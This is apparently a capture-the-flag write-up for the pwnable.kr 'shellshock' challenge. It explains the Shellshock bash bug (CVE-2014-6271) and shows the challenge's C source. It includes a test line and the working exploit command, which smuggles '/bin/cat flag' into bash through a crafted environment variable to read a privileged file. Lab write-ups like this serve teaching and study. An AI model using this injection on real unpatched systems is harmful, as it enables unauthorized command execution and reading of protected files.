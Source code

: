 # Shellshock - Pwnable.kr

![cover image](../../assets/pwnable.kr/shellshock/shellshock.png)

```
Mommy, there was a shocking news about bash.
I bet you already know, but lets just make it sure :)
```

shellshock.c:
```c
#include <stdio.h>

int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());
        system("/home/shellshock/bash -c 'echo shock_me'");
        return 0;
}
```

This is a reference to the [Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)) vulnerability.

## How does Shellshock work?
![shell](../../assets/pwnable.kr/shellshock/shell.png)

Shellshock takes advantage of the fact that when bash loads the functions set as environment variables, the contents of the functions are executed. Thanks to a quirk in the implementation of this, bash will execute the commands in the environment variable even after the function definition is over. This means that we can execute arbitrary commands by setting them in this manner in environment variables, and then spawning a new bash shell with [bash -c](https://explainshell.com/explain?cmd=bash+-c#).

For example, this will echo "vulnerable" on an affected bash version.
```bash
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```

## The code
The program is setting its UIDs and GIDs to that of the group ID of the calling process (us). This means that the program will run the program with the root permissions it has, and load our environment variables.

## Getting the flag

```
shellshock@pwnable:~$ env shocker='() { :; }; /bin/cat flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault (core dumped)
```

